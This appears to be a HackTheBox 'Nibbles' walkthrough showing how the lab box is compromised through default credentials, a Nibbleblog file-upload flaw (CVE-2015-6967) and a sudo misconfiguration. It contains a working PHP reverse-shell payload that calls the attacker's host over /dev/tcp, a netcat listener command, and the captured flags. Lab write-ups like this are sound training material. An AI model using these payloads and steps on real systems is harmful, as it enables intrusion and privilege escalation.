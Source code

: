 ```yaml
---
title: HackTheBox - Nibbles
date: 2020-12-23 23:37:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, nibbleblog, default credentials, CVE-2015-6967, metasploit, meterpreter, reverse-shell, sudo misconfiguration, writeup, oscp-prep]
image: https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/nibbles/nibbles.png
---
```


## Foothold

### `nmap` scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Nibbles-full-port-scan.txt 10.10.10.75
Warning: 10.10.10.75 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.10.75
Host is up (0.096s latency).
Not shown: 65508 closed ports
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp    open     http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
4418/tcp  filtered axysbridge
```

### Apache/4.18 (port 80)

By inspecting the sources on port 80, we see there is a hidden directory `/nibbleblog/`:

![view-source-hidden-dir](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/nibbles/view-source-hidden-dir.png)

Once we wo to his "hidden" directory we see that is qa website powered by [**Nibbleblog**](http://www.nibbleblog.com/), which turns out to be an open source CMS for blogs: 

![nibbleblog](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/nibbles/nibbleblog.png)

While I was navigating on the website, I encountered the following error:

![XML error](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/nibbles/XML-error.png)

Maybe there is something to do with it, but let's continue our enumeration.

#### Nibbleblog

Since I'm looking for more information, I ran `dirb` on [http://10.10.10.75/nibbleblog/](http://10.10.10.75/nibbleblog/):

![dirb](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/nibbles/dirb.png)

On [http://10.10.10.75/nibbleblog/README](http://10.10.10.75/nibbleblog/README), we get the version number (`v4.0.3`) of **Nibbleblog**:

![version](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/nibbles/version.png)

Bibbidi-Bobbidi-Boo...there is an exploit available!

![searchsploit](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/nibbles/searchsploit.png)

But it requires credentials so we have to go further:

![exploit-options](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/nibbles/exploit-options.png)

#### Credentials

I made a quick search &rarr; _"nibbleblog default credentials"_. Unfortunately, I didn't find anything. \

Nevertheless, there is an admin's page: [http://10.10.10.75/nibbleblog/admin.php](http://10.10.10.75/nibbleblog/admin.php). We can try some basic username/password combinations like `admin/admin`, `root/root` or even `nibbles/nibbles`.

`admin/nibbles` worked:

![success](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/nibbles/success.png)

#### Metasploit

Let's go back to the exploit:

![msf](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/nibbles/msf.png)

By doing so, we have a meterpreter. That's nice, but in order to avoid this "black box" method, let's exploit the vulnerability without this tool.

#### [CVE-2015-6967](https://cvedetails.com/cve/CVE-2015-6967/) exploitation

Thanks to [https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html), we can follow the steps to perform the exploit:

![packetstorm](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/nibbles/packetstorm.png)

1. Prepare our PHP reverse shell:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/1234 0>&1'");
```

2. Upload our malicious file to [http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image](http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image):

![plugins > my image](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/nibbles/my_image.png)

3. Run a listener &rarr; `nc -lnvp 1234`

4. Visit [http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php](http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php). Now we have a shell:

![shell](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/nibbles/shell.png)

## User (nibbler)

```bash
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home
<ml/nibbleblog/content/private/plugins/my_image$ cd /home                    
nibbler@Nibbles:/home$ ls
ls
nibbler
nibbler@Nibbles:/home$ cd nibbler
cd nibbler
nibbler@Nibbles:/home/nibbler$ ls -la
ls -la
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Dec 23 15:17 user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
e598bb90bc9ff2f87b72e2083c1cb95a
nibbler@Nibbles:/home/nibbler$
```

Let's see what we can run with `sudo`:

```bash
$ sudo -l 
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

## Root

Okay so we just have to replace `/home/nibbler/personal/stuff/monitor.sh` by malicious content:

```bash
nibbler@Nibbles:/home/nibbler$ mkdir -p personal/stuff
nibbler@Nibbles:/home/nibbler$ echo "cat /root/root.txt" > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b59ce6c276598083872b41d4785c3e8
```

___

## Useful links

- [CVE-2015-6967](https://cvedetails.com/cve/CVE-2015-6967/)
- [Packetstorm NibbleBlog 4.0.3 Shell Upload](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html)

